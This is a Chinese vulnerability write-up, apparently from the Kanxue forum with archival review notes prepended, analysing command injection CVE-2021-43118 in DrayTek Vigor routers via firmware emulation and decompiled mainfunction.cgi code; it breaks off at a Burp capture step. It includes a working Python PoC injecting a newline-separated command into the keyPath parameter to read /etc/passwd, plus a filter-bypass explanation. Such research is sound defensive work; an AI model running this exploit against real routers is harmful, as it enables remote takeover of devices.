## 2026-10-03 缺失内容恢复

本轮已按公开原文逐段恢复原有 24 处空代码块中的 24 处，仍有 0 处无法确认原文对应内容。恢复只填入已有空围栏，原有正文、解释、代码和公开测试值均保留；原归档已经存在的占位符不猜补。下文早期校订中关于代码缺失的描述属于恢复前状态，本次逐块处理结果见仓库审计清单 docs/reviews/20261003-empty-block-dispositions.json。本库未执行这些代码，也未据恢复内容将文章标记为已复现。 其中 5 个恢复块是原文用于标示小节的文字，计为文本恢复，不计为新增可执行代码。

#  Vigor3900 CVE-2021-43118 命令注入漏洞分析   

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：DrayTek Vigor3900/2960/300B
- 本文讨论：CVE-2021-43118
- 版本、权限与配置前提：1.5.1.3；login keyPath换行绕过滤；三个参数非空
- 资料类型：固件仿真/逆向研究；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

保留为待核固件研究分析：正文仍有 keyPath 数据流、过滤与约束路径、抓包定位及失败后的调试过程。若干代码块采集为空，不能直接照此复现实验；缺少可运行代码不抹去这份独立分析，空块与图片待补核。

### 逐项校订

- 所有关键源码/脚本/调试命令代码块为空，截图承载核心证据
- 与旧CVE2020-8515同端点同参数但版本/过滤不同，不能直接重复删除
- 缺固件来源/校验；CVE 记录及原作者入口已补，布尔值/空指针解释仍需逐项核对

### 操作风险与恢复

- 本篇未提供足以确认无副作用的完整验证流程；应依正文所述配置、权限与交互前提评估，不能把通告或截图当成可直接运行的检测脚本

### 待核与来源

- 2026-10-02 核对 [CVE 原始记录](https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2021/43xxx/CVE-2021-43118.json)，其描述列出 Vigor 2960 / 3900 / 300B 1.5.1.3 与 mainfunction.cgi 命令注入；未据此验证本文固件文件或脚本。
- [N1nE 原研究](https://bbs.kanxue.com/thread-282750.htm) 由看雪原站索引定位，当前正文访问遇到安全验证；已记录出处，未声称重新读到全部原站正文。过滤差异、图片及缺失代码仍待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

N1nE  看雪学苑   2024-08-15 18:00  
  
此固件是2024中国工业互联网安全大赛智能家电行业赛道选拔赛决赛的一道题目，其中就可以直接用CVE直接命令执行。本人对IoT一直在尝试学习，这次的比赛见到了很多师傅非常厉害，这也是一个非常好的让我深入IoT漏洞挖掘和利用世界的契机。所以我打算完整分析一次这个赛题/固件，希望大家都有所收获。  
##   
##   
  
```
一

漏洞信息
```  
  
  
  
DrayTek Vigor 是一款arm架构路由器。该路由器存在一个远程命令注入漏洞，攻击者可以利用该漏洞，通过在mainfunction.cgi  
中注入格式错误的查询字符串，构造恶意的 HTTP 消息，从而在远程执行任意代码。  
  
  
**受影响版本：**  
  
  
◆DrayTek Vigor3900 1.5.1.3  
  
◆DrayTek Vigor2960 1.5.1.3  
  
◆DrayTek Vigor300B 1.5.1.3  
  
  
  
```
二

仿真
```  
  
###   
### 1. 基于qemu的Sevnup模拟启动  
  
  
直接使用命令启动系统级固件模拟，成功。  
  
  
  
###   
### 2. 找到服务并启动  
  
  
使用命令find ./ -name *.httpd  
发现了几个httpd,其中主要是lighttpd。  
  
  
  
  
  
直接启动失败，说没有配置文件：  
  
  
  
  
  
尝试找配置文件：  
  
  
  
  
  
发现相关http的配置文件，尝试使用lighttpd的配置文件即可启动成功，命令如图。  
  
  
  
  
  
发现http服务启动成功：  
  
  
##   
  
  
```
三
复现
```  
  
  
  
我们首先获取网络上的POC脚本进行复现：  
  
  
```
import requests
host='http://10.10.10.2'
def run_cmd(cmd):
    try:
        headers = {
            "UserAgent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0)Gecko/20100101 Firefox/75.0"
            }
        url = host + "/cgi-bin/mainfunction.cgi"
        data = "action=login&keyPath=%27%0A%2fbin%2f" + cmd + "%0A%27&loginUser=a&loginPwd=a"
        res = requests.post(url=url, data=data, timeout=(10, 15),headers=headers)
        if res.status_code == 200:
            return res.text
        else:
            print('error')
            return 1
    except Exception as e:
        return ""

data=run_cmd('cat</etc/passwd')
print(data)
```  
  
  
  
效果如下，说明仿真成功：  
  
  
  
##   
##   
  
```
四

分析
```  
  
###   
### 1. 找到漏洞程序  
  
  
主要使用了lighttpd运行了httpd服务，然而怎么处理得看上述找到的lighttpd.conf配置文件：  
  
  
  
  
可以看到大概是有cgi-bin去处理相关逻辑的。  
  
  
  
  
  
我们可以看到，确实存在cgi-bin。  
  
  
  
  
  
接着我们就在这里看到了漏洞描述的文件mainfunction.cgi  
。接下来我们对其进行深入分析。  
  
### 2. 找到命令注入点  
  
  
我们可以通过搜索POC的keyPath找到对应位置（shift+f12,然后alt+t进行搜索）：  
  
  
  
  
  
点击进入后，查看其交叉引用（ctrl+x）：  
  
  
  
  
  
显然第一个是有汇编指令LDR进行调用地方，我们双击进入并且F5反编译，得到头部伪代码如下：  
  
  
```
 haystack = getenv("HTTP_COOKIE");
  v0 = getenv("REMOTE_ADDR");
  strcpy(v38, "uci get acc_ctrl.access_control.validation_code");
  v1 = (char *)sub_21558(v38);
  strcpy(v38, "uci get acc_ctrl.access_control.fail_times");
  v2 = (const char *)sub_21558(v38);
  v35 = atoi(v2);
  v3 = (const char *)sub_20ECC(v0, ".", "_");
  snprintf(v38, 0x400u, "json -f /tmp/login_ip get ip.%s", v3);
  v4 = (const char *)sub_21558(v38);
  v36 = atoi(v4);
  Value = cgiGetValue(dword_42D0C, "keyPath");
  v6 = (const char *)cgiGetValue(dword_42D0C, "loginUser");
  v7 = cgiGetValue(dword_42D0C, "loginPwd");
  v8 = v6 == 0;
  if ( v6 )
    v8 = v7 == 0;
  v9 = (const char *)v7;
  if ( v8 || !Value )
  {
    v14 = cgiGetValue(dword_42D0C, "formusername");
    v17 = cgiGetValue(dword_42D0C, "formpassword");
  }
  else
  {
    v10 = off_42400[0];
    v11 = (const char *)sub_AD58(Value);
    snprintf(v40, 0x64u, "%s%s%s", v10, "_", v11);
    sub_AD58(v6);
    v12 = strlen(v6);
    v13 = sub_CEC4(v6, v12, v46);
    sub_CCC8(off_42404[0], v46[0], v13);
    snprintf(v38, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", v40, off_42404[0]);
    v14 = sub_21558(v38);
    sub_AD58(v9);
    v15 = strlen(v9);
    v16 = sub_CEC4(v9, v15, v46);
    sub_CCC8(off_42404[0], v46[0], v16);
    snprintf(v38, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", v40, off_42404[0]);
    v17 = sub_21558(v38);
    snprintf(v38, 0x400u, "rm -f '%s' '%s' '%s'", v40, off_42404[0], v33);
    system(v38);
  }
```  
  
  
  
函数名称为 sub_2AB3C。  
  
  
我们点击进入cghiGetValue函数得到：  
  
  
```
// attributes: thunk
int __fastcall cgiGetValue(int a1, int a2)
{
  return __imp_cgiGetValue(a1, a2);
}
```  
  
  
  
应该是把对应数据的值传入a1中。  
  
  
显然重点在于system(v38);  
。我们通过修复v38变量对最终作为命令传入的参数进行跟踪。  
  
  
  
  
  
从下网上看，我们发现cmd的一个部分str_1来自v10与v11，我们考虑对其进行继续跟踪，改名为str11与str12。然而发现str11来自off_42400,  
  
为.data:00042400 C4 7E 03 00 off_42400 DCD aTmpRsaPrivateK也就是/tmp/rsa/private_key，而str12来自Value经过函数sub_AD58的返回值。函数暂时不深究，我们继续向上回溯分析。  
  
  
  
  
  
然后我们发现，Value就是keypath的值。也就是说如果要传入命令必然经过keyPath。所以这就是注入点了。  
  
### 3. 求解约束路径  
  
  
在找到注入点之后，我们要分析，注入如何的数据能够走向执行system(cmd)的部分。我们标注key_path传入的数据就是web_cmd，我们可以看见，他会经过一个比较：  
  
  
```
if ( v8 || !web_cmd )
  {
    v14 = cgiGetValue(web_cmd_buf, "formusername");
    v17 = cgiGetValue(web_cmd_buf, "formpassword");
  }
  else
```  
  
  
  
注意到else才是我们能执行命令的位置：  
  
```
 else
  {
    str11 = off_42400[0];
    str12 = (const char *)sub_AD58(web_cmd);
    snprintf(str_1, 0x64u, "%s%s%s", str11, "_", str12);
    sub_AD58(v6);
    v12 = strlen(v6);
    v13 = sub_CEC4(v6, v12, v46);
    sub_CCC8(str_2[0], v46[0], v13);
    snprintf(cmd, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", str_1, str_2[0]);
    v14 = sub_21558(cmd);
    sub_AD58(v9);
    v15 = strlen(v9);
    v16 = sub_CEC4(v9, v15, v46);
    sub_CCC8(str_2[0], v46[0], v16);
    snprintf(cmd, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", str_1, str_2[0]);
    v17 = sub_21558(cmd);
    snprintf(cmd, 0x400u, "rm -f '%s' '%s' '%s'", str_1, str_2[0], str_3);
    system(cmd);
  }
```  
  
  
  
所以我们要想办法满足v8 || !web_cmd == false  
才能够触发命令执行。  
  
  
换句话说，!web_cmd  
我们传入之后他肯定是false了，我们只需要v8也是false即可，也就是说v8是空指针或者没有内容或者为0。  
  
  
  
  
  
他的类型是bool类型。  
  
  
  
  
  
注释给出他是zf,也就是0标志位。我们发现对于v8有几个关键的赋值：  
  
  
```
  v8 = Value == 0;
  if ( Value )
    v8 = v7 == 0;
```  
  
  
  
首先v8为Value == 0的布尔值，我们希望v8是false,也就是说Value不是0,而且如果value有了的话，我们也希望v7不是0,这样就能确保v8为0了。  
  
  
仔细观察发现web_cmd_buf其实依次从keyPath、loginUser、loginPwd取值，最后是从loginPwd取值到web_cmd,Value,v7，所以我们这三个参数都要有,才能满足v8为false。  
  
```
  web_cmd = (unsigned __int8 *)cgiGetValue(web_cmd_buf, (int)"keyPath");
  Value = (unsigned __int8 *)cgiGetValue(web_cmd_buf, (int)"loginUser");
  v7 = cgiGetValue(web_cmd_buf, (int)"loginPwd");
```  
  
###   
### 4. 构造命令注入  
  
  
得到路径之后我们继续分析如何构造命令进行注入：  
  
  
```
    str11 = off_42400[0];
    str12 = sub_AD58(web_cmd);
    snprintf(str_1, 0x64u, "%s%s%s", str11, "_", (const char *)str12);
    sub_AD58(Value);
    v12 = strlen((const char *)Value);
    v13 = sub_CEC4(Value, v12, v46);
    sub_CCC8(str_2[0], v46[0], v13);
    snprintf(cmd, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", str_1, str_2[0]);
    v14 = sub_21558(cmd);
    sub_AD58(v9);
    v15 = strlen((const char *)v9);
    v16 = sub_CEC4(v9, v15, v46);
    sub_CCC8(str_2[0], v46[0], v16);
    snprintf(cmd, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", str_1, str_2[0]);
    v17 = sub_21558(cmd);
    snprintf(cmd, 0x400u, "rm -f '%s' '%s' '%s'", str_1, str_2[0], str_3);
    system(cmd);
```  
  
  
  
我们看看伪代码。我们发现可控的只有web_cmd,他会经过sub_AD58做一个处理。存在数据链条如下：  
  
  
```
sub_AD58(web_cmd) -> str12 -> str_1=str11+"_"+str12 -> snprintf(cmd)
```  
  
  
  
所以 ，此处我们还需要分析一下sub_AD58函数。函数具体如下：  
  
  
```
unsigned __int8 *__fastcall sub_AD58(unsigned __int8 *result)
{
  unsigned __int8 *i; // r2
  int v2; // r3
  bool v3; // zf
  _BOOL4 v4; // r3

  for ( i = result; i; ++i )
  {
    v2 = *i;
    v3 = v2 == 96;
    if ( v2 != 96 )
      v3 = v2 == 59;
    if ( v3 || v2 == 124 || v2 == 62 || v2 == 32 )
    {
      *i = 43;
    }
    else
    {
      v4 = v2 == 36;
      if ( i == (unsigned __int8 *)-1 )
        v4 = 0;
      if ( v4 && i[1] == 40 )
      {
        i[1] = 43;
        *i = 43;
      }
      if ( !*i )
        return result;
    }
  }
  return result;
}
```  
  
  
  
我修改变量名和一些数据类型得到如下，并且写一些注释方便各位分析查看：  
  
  
```
unsigned __int8 *__fastcall change_str(unsigned __int8 *web_cmd)
{
  unsigned __int8 *string; // r2
  int char_; // r3
  bool flag; // zf
  _BOOL4 flag_2; // r3

  for ( string = web_cmd; string; ++string )
  {
    char_ = *string; // 获取当前字节
    flag = char_ == '`'; // 当char_是`那么flag为1,反之为0
    if ( char_ != '`' ) // 如果当前字节是`就不管了flag就是1。如果不是那么就再看看，当char是;的情况把flag赋值为1否则为0
      flag = char_ == ';';
    if ( flag || char_ == '|' || char_ == '>' || char_ == ' ' )
    {// 总结来说，如果char_是` ; | > 和空格都会被替换为+。
      *string = '+';
    }
    else
    {// 如果以上都不是，那么看看当前字符是不是$符号，如果是flag_2为1
      flag_2 = char_ == '$';
      if ( string == (unsigned __int8 *)'xFF' )
        flag_2 = 0;//如果string是0xff就又赋值为0
      if ( flag_2 && string[1] == '(' ) // 如果第二个字符是( 而且flag2也为1那么就复制++给string的开头，也就是$(一起出现会被改为++
        qmemcpy(string, "++", 2);
      if ( !*string )//直到最后string的结为，返回web_cmd回去。注意这做的更改都是会返回的。
        return web_cmd;
    }
  }
  return web_cmd;
}
```  
  
  
  
省流分析结果，我想传入命令但是不被更改为加号的话，那么就保证不出现以下字符：  
  
  
```
`  | ; ? 空格 $( 不可一起出现
```  
  
  
```
str12 = change_str(web_cmd);
snprintf(str_1, 0x64u, "%s%s%s", str11, "_", (const char *)str12);
```  
  
  
  
处理之后传给str12，会与str11和_和自己组合，我们为了与他们割裂可以用回车键将自己作为另一个命令。  
  
  
```
  snprintf(cmd, 0x400u, "openssl rsautl -inkey '%s' -decrypt -in %s", str_1, str_2[0]);
    v17 = sub_21558(cmd);
    snprintf(cmd, 0x400u, "rm -f '%s' '%s' '%s'", str_1, str_2[0], str_3);
```  
  
  
  
最后还会做这样一系列的操作。所以我们前后都用回车键将命令分隔开。  
  
  
综上我们需要构造web_cmd也就是：  
  
1.keyPath不得出现以上字符。  
  
2.keyPath、loginUser、loginPwd都要赋值。其中keyPath是命令。  
  
3.keyPath前后都要想办法分割。  
  
### 5. burp抓包构造poc  
  
  
知道需要构造的参数之后，我们还是无法知道如何调用到这个函数，目前根据配置文件知道可以使用/cgi-bin/mainfunction.cgi去调用这个cgi（甚至对此也不是特别确定），但是如何去调用到这个函数呢？有点一头雾水，而且根据网上poc可以得出是action等于login吧？但是没法通过逆向找到具体的调用方式。  
  
  
下面可以看到函数地址和一些相关字符串挨在一起待在data段。  
  
  
  
  
  
此时我想到，可以尝试一个比较快的方式，从而得知他的调用格式和发包方式：用burp抓包分析。如图，确实是使用/cgi-bin/mainfunction.cgi去调用cgi，并且使用的是POST请求。POST参数包括action和具体参数。  
  
